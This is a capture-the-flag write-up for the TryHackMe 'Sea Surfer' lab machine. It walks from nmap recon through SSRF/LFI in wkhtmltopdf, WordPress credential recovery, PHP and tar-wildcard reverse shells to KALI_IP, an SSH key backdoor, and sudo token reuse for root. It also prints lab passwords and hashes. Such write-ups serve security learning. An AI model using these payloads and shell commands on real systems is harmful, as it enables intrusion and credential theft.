


# TryHackMe: Sea Surfer Writeup

This is an enumeration, SSRF, LFI, and privesc hacking challenge.

## Recon

We start out with a basic recon nmap scan. This reveals that there's an http and ssh service. Trying an anonymous logon to ssh doesn't work.

```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -A -sV -sC -T4 -p- -oN tcp.nmap 10.10.10.210
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-29 00:57 EST
Nmap scan report for 10.10.10.210
Host is up (0.15s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 87:e3:d4:32:cd:51:d2:96:70:ef:5f:48:22:50:ab:67 (RSA)
|   256 27:d1:37:b0:c5:3c:b5:81:6a:7c:36:8a:2b:63:9a:b9 (ECDSA)
|_  256 7f:13:1b:cf:e6:45:51:b9:09:43:9a:23:2f:50:3c:94 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=1/29%OT=22%CT=1%CU=40178%PV=Y%DS=2%DC=T%G=Y%TM=63D60C4
OS:2%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=108%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST1
OS:1NW7%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   151.73 ms 10.18.0.1
2   151.90 ms 10.10.10.210

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 394.93 seconds
```


Checking the website, there's only a default template page. But looking at the headers reveals a domain.



```
┌──(kali㉿kali)-[~]
└─$ curl -v 10.10.56.149       
*   Trying 10.10.56.149:80...
* Connected to 10.10.56.149 (10.10.56.149) port 80 (#0)
> GET / HTTP/1.1
> Host: 10.10.56.149
> User-Agent: curl/7.84.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Mon, 30 Jan 2023 00:41:11 GMT
< Server: Apache/2.4.41 (Ubuntu)
< Last-Modified: Sun, 17 Apr 2022 18:54:09 GMT
< ETag: "2aa6-5dcde2b3f2ff9"
< Accept-Ranges: bytes
< Content-Length: 10918
< Vary: Accept-Encoding
< X-Backend-Server: seasurfer.thm
< Content-Type: text/html
< 
[...]
```

We add this domain to our hosts file with `echo "10.10.56.149   seasurfer.thm" >> /etc/hosts`.


We click around the website. Check all the posts and info. It says it was made by "kyle", we'll keep that info for later. The comments also reveal a subdomain, which we also add to our hosts file with `echo "10.10.56.149   internal.seasurfer.thm" >> /etc/hosts`.


## SSRF and LFI

The "internal" subdomain appears to generate PDFs based on the form. 


We can try to inject `<h1>asdf</h1>` in a field to see if it will display in the outputted PDF file. It does. We can potentially attack this with SSRF or local file inclusion. Trying `<iframe height="2000" width="800" src="file:///etc/passwd"></iframe>` doesn't work though.



Looking at the properties of the pdf file (on chrome: three dots top right corner > document properties), we see that the website uses wkhtmltopdf to generate the pdfs from this form.

```
Document properties
File name:          29012023-9OZtn8ojlr6zLl4zY3mI.pdf
File size:          52.9 KB
Title:              Receipt
Author:             -
Subject:            -
Keywords:           -
Created:            1/29/23, 3:35:48 PM
Modified:           -
Application:        wkhtmltopdf 0.12.5
PDF producer:       Qt 4.8.7
PDF version:        1.4
Page count:         1
Page size:          8.26 × 11.69 in (portrait)
Fast web view:      No
```

A quick search reveals that this program is vulnerable to local file inclusion and SSRF. We can try to get the server to read us some data.

On kali, we host a file by running `service apache2 start`. Then we create a payload in /var/www/html/ named payload.php.
```php
<?php
     header('location:file:///etc/passwd');
?>
```

We put this into one of the fields in the form and submit it.
```html
<iframe height="2000" width="800" src=http://KALI_IP/payload.php></iframe>
<iframe height="2000" width="800" src="http://KALI_IP/payload.php"></iframe>
```

Success. We can read /etc/passwd.


We edit the payload to see what user is running.

```php
<?php
     header('location:file:///proc/self/status');
?>
```

Uid 33 33 = www-data from the /etc/passwd we got earlier.


Tried to see if we can access logs for Log Poisoning. Fruitless, just gives a blank iframe.
```
/var/log/auth.log
/var/log/apache2/access.log
/var/log/vsftpd.log
/var/log/apache2/error.log
```

Tried to read wp-config.php. We know that the website is being run out of /var/www, so the file is somewhere in the directory/subdirectory. The last one worked.
```
/var/www/wp-config.php
/var/www/html/wp-config.php
/var/www/seasurfer/wp-config.php
/var/www/wordpress/wp-config.php
```

wp-config.php gives us database credentials.
```
[...]
define( 'DB_NAME', 'wordpress' );
/** Database username */
define( 'DB_USER', 'wordpressuser' );
/** Database password */
define( 'DB_PASSWORD', 'coolDataTablesMan' );
/** Database hostname */
define( 'DB_HOST', 'localhost' );
/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );
/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
[...]
```


## Enumeration and Credentials

Enumerating seasurfer.thm with `gobuster dir -u seasurfer.thm -w /usr/share/seclists/Discovery/Web-Content/big.txt` reveals the usual wp login pages, as well as /adminer, which appears to be the database for these credentials.


We log in to the database.


We can see the users table.


Lets grab the hash from kyle and crack it with `hashcat -O -m 400 -a 0 -o cracked.txt hashes.txt /usr/share/wordlists/rockyou.txt`.

cracked.txt
```
$P$BuCryp52DAdCRIcLrT9vrFNb0vPcyi/:jenny4ever
```

Note that can also just change kyle's password. WP uses a Portable PHP hash. This website does it for us: http://scriptserver.mainframe8.com/wordpress_password_hasher.php


We can change the hash in the database to "password", or `$P$BIaoue8/jCS/3qVUc3JVPSvXzvmdt.1`. Not necessary since we already cracked it.

## Reverse Shell

We log in to wordpress at /wp-admin with kyle's account.


Create a simple reverse shell:
```
<?php

exec("/bin/bash -c 'bash -i >& /dev/tcp/KALI_IP/1234 0>&1'");
```

We'll change to 404 page to this.

We get a shell on our machine.

## Wildcard Exploit

Looking around, we find `/var/www/internal/maintenance/backup.sh`

```
www-data@seasurfer:/var/www/internal/maintenance$ cat backup.sh
cat backup.sh
#!/bin/bash

# Brandon complained about losing _one_ receipt when we had 5 minutes of downtime, set this to run every minute now >:D
# Still need to come up with a better backup system, perhaps a cloud provider?

cd /var/www/internal/invoices
tar -zcf /home/kyle/backups/invoices.tgz *
```

We can do a tar wildcard exploit.

```bash
cd /var/www/internal/invoices; echo "/bin/bash -c 'bash -i >& /dev/tcp/KALI_IP/9999 0>&1'" > shell.sh; echo "" > "--checkpoint-action=exec=sh shell.sh"; echo "" > --checkpoint=1; chmod 777 shell.sh
```

## Priv Esc

Lets replace his key with our own key pair generated from `ssh-keygen`.

```bash
echo "ssh-rsa AAAAB3N[...]eEP+QL2S+SQq/QrP0= kali@kali" > ~/.ssh/authorized_keys
```

Send a file via `nc`.

On remote: `nc -nvlp 1234 > LinPEAS.tar.gz`

On local: `nc 10.10.245.211 1234 < LinPEAS.tar.gz`

We see something interesting, ptrace protection is disabled. Looking at the linked article, we see that we may be able to exploit this if there was a sudo command run by this user <15 minutes ago, and if we can run gdb.

```
╔══════════╣ Checking sudo tokens
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#reusing-sudo-tokens          
ptrace protection is disabled (0)                                                               
gdb wasn't found in PATH, this might still be vulnerable but linpeas won't be able to check it
```

We see in the logs that there appears to be a sudo command that was used.

```
╔══════════╣ Searching passwords inside logs (limit 70)
[...]
Jun 14 23:46:46 seasurfer sudo:     kyle : TTY=pts/0 ; PWD=/home/kyle ; USER=root ; COMMAND=/root/admincheck
    password: $6$hq600HkLbsAiSVHZ$/6GmaV6.y4iVS.OM9AI.O5OVQxq1y/C1A6AX4t9uFLyNzaIr/50cRFqLZCYsAwfQvrgQKdZPnOnyEbgzw7RhV/
```

The sudo command is likely executed when the machine starts. I restarted the machine and quickly went through the previous steps (this is why the wildcard exploit is a one liner). We can install gdb locally. We also send a copy of exploit_v2.sh (exploit.sh doesn't work for some reason) from https://github.com/nongiach/sudo_inject

On remote:
```bash
nc -nvlp 6000 > gdb_9.1-0ubuntu1_amd64.deb; dpkg -x gdb_9.1-0ubuntu1_amd64.deb ~
```

On local:
```bash
nc 10.10.46.205 6000 < gdb_9.1-0ubuntu1_amd64.deb
```

Then the following commands will give us root access.
```bash
cd ~/usr/bin                                            #our directory with gdb
export PATH=$(pwd):$PATH                                #add current (gdb) directory to path for current shell
nc -nvlp 6000 > exploit_v2.sh; chmod 777 exploit_v2.sh  #copy exploit script and give perms
sh exploit_v2.sh                                        #run exploit
/tmp/sh -p                                              #gives us root shell
```
